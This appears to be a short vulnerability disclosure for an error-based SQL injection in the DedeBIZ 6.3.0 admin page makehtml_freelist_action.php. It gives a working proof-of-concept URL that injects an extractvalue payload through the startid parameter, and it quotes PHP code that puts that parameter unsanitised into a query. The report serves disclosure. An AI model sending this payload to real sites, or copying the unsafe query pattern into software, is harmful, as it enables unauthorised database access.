

# DedeBIZ 6.3.0  /admin/makehtml_freelist_action.php There is an error-reporting SQL injection vulnerability

## Desc

DedeBIZ 6.3.0 in /admin/makehtml_freelist_action.php does not fully verify the incoming data from the front end, resulting in an error-reporting SQLI vulnerability. The corresponding source code can be downloaded from the official website: https://www.dedebiz.com/download

## verify

Set up the environment and access the administrator backend, visit the url address

```
http://IP/admin/makehtml_freelist_action.php?maxpagesize=30&startid=extractvalue(1,concat(0x7e,(select+user()),0x7e))&%19&pageno=1
```



Corresponding source code

```php
require_once(DEDEINC."/archive/freelist.class.php");
if (empty($startid)) $startid = 0;
$ci = " aid >= $startid ";
if (!empty($endid) && $endid >= $startid) {
    $ci .= " And aid <= $endid ";
}
header("Content-Type:text/html; charset={$cfg_soft_lang}");
$dsql->SetQuery("SELECT aid FROM `#@__freelist` WHERE $ci");
$dsql->Execute();
```

